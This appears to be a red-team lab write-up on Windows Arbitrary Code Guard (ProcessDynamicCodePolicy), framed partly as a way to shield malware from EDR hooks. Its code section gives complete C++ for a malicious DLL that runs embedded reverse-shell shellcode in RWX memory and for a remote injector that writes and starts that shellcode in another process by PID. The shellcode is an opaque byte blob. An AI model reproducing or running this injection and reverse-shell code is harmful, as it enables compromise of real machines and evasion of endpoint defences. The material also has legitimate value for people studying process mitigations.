

# ProcessDynamicCodePolicy: Arbitrary Code Guard \(ACG\)

I first learned about `ProcessDynamicCodePolicy` in [Adam Chester's](https://twitter.com/_xpn_) great post [https://blog.xpnsec.com/protecting-your-malware/](https://blog.xpnsec.com/protecting-your-malware/) and this is a quick lab to play around with it. `ProcessDynamicCodePolicy` prevents the process from generating dynamic code or modifying existing executable code.

`ProcessDynamicCodePolicy` is also sometimes called Arbitrary Code Guard \(ACG\):

> With ACG enabled, the Windows kernel prevents a content process from creating and modifying code pages in memory by enforcing the following policy:
>
> 1. **Code pages are immutable**. Existing code pages cannot be made writable and therefore always have their intended content. This is enforced with additional checks in the memory manager that prevent code pages from becoming writable or otherwise being modified by the process itself. For example, it is no longer possible to use VirtualProtect to make an image code page become PAGE\_EXECUTE\_READWRITE.
> 2. **New, unsigned code pages cannot be created**. For example, it is no longer possible to use VirtualAlloc to create a new PAGE\_EXECUTE\_READWRITE code page.
>
> [https://blogs.windows.com/msedgedev/2017/02/23/mitigating-arbitrary-native-code-execution/](https://blogs.windows.com/msedgedev/2017/02/23/mitigating-arbitrary-native-code-execution/)

Enabling `ProcessDynamicCodePolicy` on your malware **may be useful for protecting it from EDR solutions** that hook userland API functions in order to inspect programs' intents. EDRs will usually install hooks by injecting their DLL\(s\) into processes they want to monitor.

Related notes [Preventing 3rd Party DLLs from Injecting into your Malware](preventing-3rd-party-dlls-from-injecting-into-your-processes.md) about another process mitigation policy that prevents non-Microsoft signed binaries from being loaded into processes.

## Enabling ACG

We can enable the ACG mitigation policy for a local process with the following code:


```cpp
#include <iostream>
#include <Windows.h>

int main()
{
	PROCESS_MITIGATION_DYNAMIC_CODE_POLICY dcp = {};
	dcp.ProhibitDynamicCode = 1;
	SetProcessMitigationPolicy(ProcessDynamicCodePolicy, &dcp, sizeof(dcp));
}
```


We can check the ACG policy is applied with Process Hacker:


## Injecting a DLL into ACG Enabled Process

Now that we have a process that is running with Arbitrary Code Guard enabled, we can try to inject a DLL that attempts to write shellcode \(simple reverse shell\) to the injected process's memory and execute it and we will see that ACG will neutralize this attempt.

Below shows how our malicious `injectorDllShellcode.dll` is being injected into the ACG enabled process `mitigationpolicy.exe`, but never gets loaded - **Load Image** event in Procmon is missing and the reverse shell is never returned:



To prove that the DLL works - below is a gif showing how the `mitigationpolicy.exe` is launched with the ACG policy switched off:


...procmon shows that `injectorDllShellcode.dll` was loaded this time:


## Injecting Shellcode into ACG Enabled Process

Although the ACG in `mitigationpolicy.exe` neutralized our malicious `injectorDllShellcode` DLL that attempted to allocate RWX memory, write shellcode there and execute it, **ACG still does not prevent** remote processes from allocating memory, writing and executing shellcode directly \(as apposed to doing it from an injected DLL\) to the ACG enabled process using `VirtualAllocEx` and `WriteProcessMemory` APIs.

Repeating:


Remotes processes \(i.e EDRs\) could use `VirtualAllocEx` and `WriteProcessMemory`to write and execute shellcode in an ACG enabled process rendering ACG useless.


Below shows that indeed it's still possible for a remote process to inject shellcode to a process protected with ACG:

* mitigationpolicy.exe is my program running with `ProcessDynamicCodePolicy` enabled
* injector.exe \(remote process in this context\) is a shellcode injector that will inject shellcode into ACG enabled mitigationpolicy.exe with PID 7752


At first, I was confused as to why this was possible, but [@\_xpn\_](https://twitter.com/_xpn_) suggested that ACG's primary purpose was to: "...stop exploit chains where the first step of ROP was to set a page RWX and then write further shellcode to that page..." and suddenly it all made sense.

## Updates

After posting these notes on twitter, I got some replies that I wanted to highlight here:


## Code



```cpp
#include <iostream>
#include <Windows.h>

int main()
{
	PROCESS_MITIGATION_DYNAMIC_CODE_POLICY dcp = {};
	dcp.ProhibitDynamicCode = 1;
	SetProcessMitigationPolicy(ProcessDynamicCodePolicy, &dcp, sizeof(dcp));

	while (true)
	{
		Sleep(1000 * 2);
	}

	return 0;
}
```



```cpp
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
		case DLL_PROCESS_ATTACH:
		{
			unsigned char shellcode[] =
				"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
				"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
				"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
				"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
				"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
				"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
				"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
				"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
				"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
				"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
				"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
				"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
				"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
				"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
				"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
				"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
				"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
				"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
				"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
				"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
				"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
				"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
				"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
				"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
				"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
				"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
				"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
				"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
				"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
				"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
				"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
				"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
				"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
				"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

			PVOID buffer = VirtualAlloc(NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
			WriteProcessMemory(GetCurrentProcess(), buffer, shellcode, sizeof shellcode, NULL);
			CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);
			MessageBoxA(NULL, "ACG not enabled - shellcode executed", "ACG not enabled - shellcode executed", 0);
		}
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
    }
    return TRUE;
}


```



```cpp
#include <iostream>
#include <Windows.h>

int main(int argc, char *argv[]) {
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
}

```



## References





